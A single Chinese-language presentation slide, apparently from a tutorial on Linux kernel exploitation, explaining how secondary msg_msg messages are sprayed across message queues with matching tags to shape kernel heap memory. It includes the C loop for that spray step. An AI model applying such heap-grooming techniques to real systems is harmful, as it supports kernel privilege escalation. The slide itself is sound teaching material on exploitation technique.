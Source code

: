 \documentclass[xcolor=table]{beamer}
\begin{document}
\begin{frame}[fragile]
\frametitle{为辅助消息内存空间填充数据}

\begin{columns}[c]
\small{接下来为每个消息队列添加辅助消息（即为msg\_msg->next开辟空间），添加与同消息队列中主消息相同的标识，得到如右图所示内存布局。}

\tiny\begin{lstlisting}[language=c]
printf("[*] Spraying secondary messages...\n");
for (int i = 0; i < NUM_MSQIDS; i++) {
    memset(&msg_secondary, 0, sizeof(msg_secondary));
    *(int *) &msg_secondary.mtext[0] = MSG_TAG;
    *(int *) &msg_secondary.mtext[4] = i;
    if (write_msg(msqid[i], &msg_secondary, sizeof(msg_secondary), MTYPE_SECONDARY) < 0)
        goto err_rmid;
}
\end{lstlisting}

\begin{figure}[H]
\centering
\includegraphics[width=\textwidth]{pic/2}%
\end{figure}

	
\end{columns}

\end{frame}
\end{document}
